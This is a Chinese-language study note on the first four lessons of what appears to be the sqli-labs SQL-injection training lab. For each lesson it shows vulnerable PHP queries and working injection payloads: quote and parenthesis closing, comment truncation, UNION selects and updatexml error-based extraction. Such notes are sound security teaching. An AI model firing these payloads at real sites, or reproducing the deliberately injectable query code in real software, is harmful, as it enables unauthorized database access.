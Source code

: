 ```yaml
---
description: 对sql 语句地闭合与截断形式
---
```


# lesson1-lesson4

## 闭合方式

* 整型： 无需闭合
* 字符型： ’单音号闭合‘，”双引号闭合“，...\(\(\('组合括号'\)\)\)... 

## 截断方式

* \#:\#号需要进行url编码成%23，因为url中\#号另作他用表示锚点，而在sql语句中才表示注释符。
* --\(空格\)：一般可以使用--+\(加号在url中表示空格\)，-- a\(后边随便添个字符防止空格被trim掉\)。
* 待整理

## ​lesson1



> String - single quotes



* **source**： $\_GET\['id'\]

```php
if(isset($_GET['id']))
$id=$_GET['id'];
```



* **sink**：select语句，where条件
  * 闭合形式：单引号

```php
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);
```



* **output**:

```php
	if($row)
	{
  	echo "<font size='5' color= '#99FF00'>";
  	echo 'Your Login name:'. $row['username'];
  	echo "<br>";
  	echo 'Your Password:' .$row['password'];
  	echo "</font>";
  	}
	else 
	{
	echo '<font color= "#FFFF00">';
	print_r(mysql_error());
	echo "</font>";  
	}
}
	else { echo "Please input the ID as parameter with numeric value";}

```

* union注入:  通过`$row`

  * 2，3点可控:  `index.php?id=0' union select 1,user(),3 --+`

* 报错注入： 通过 `print_r(mysql_error())`

  * xpath:  `index.php?id=1' and (updatexml(1,concat(0x7e,(select user()),0x7e),1))--+`

* 盲注：
  * 时间
  * boolean

## lesson 2

> Intiger

* source: 同lesson1
* sink

```php
// connectivity 
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);
```

整型注入探测可以使用减法计算\(加法url编码会被识别成空格\)，`index.php?id=2-1`

* output: 



  * union注入:  通过`$row`

    * 2，3点可控:  `index.php?id=0 union select 1,user(),3 --+`

  * 报错注入： 通过 `print_r(mysql_error())`

    * xpath:  `index.php?id=1 and (updatexml(1,concat(0x7e,(select user()),0x7e),1))--+`

  * 盲注：
    * 时间
    * boolean

## lesson 3

> String-Single quotes with twist

* sink:

```php
$sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);
```

有小括号的情况下，单纯的单引号闭合会报错的。要把括号也闭合掉才能合法加上子句。

* output:



  * union注入:  通过`$row`

    * 2，3点可控:  `index.php?id=0') union select 1,user(),3 --+`

  * 报错注入： 通过 `print_r(mysql_error())`

    * xpath:  `index.php?id=1') and (updatexml(1,concat(0x7e,(select user()),0x7e),1))--+`

  * 盲注：

    * 时间
    * boolean

## lesson 4

> String-Double Quotes

* sink:

```php
$id = '"' . $id . '"';
$sql="SELECT * FROM users WHERE id=($id) LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);
```

双引号和单引号是不同的双引号包裹的字符串是会解析变量的内容然后替换\(把变量名看做占位符\)。因此这里的$sql里的 \`id=\($id\)\` $id会被解析成第一句表达式的赋值内容，即在sql层面的双音号包囊。

* output:



  * union注入:  通过`$row`

    * 2，3点可控:  `index.php?id=0") union select 1,user(),3 --+`

  * 报错注入： 通过 `print_r(mysql_error())`

    * xpath:  `index.php?id=1") and (updatexml(1,concat(0x7e,(select user()),0x7e),1))--+`

  * 盲注：
    * 时间
    * boolean



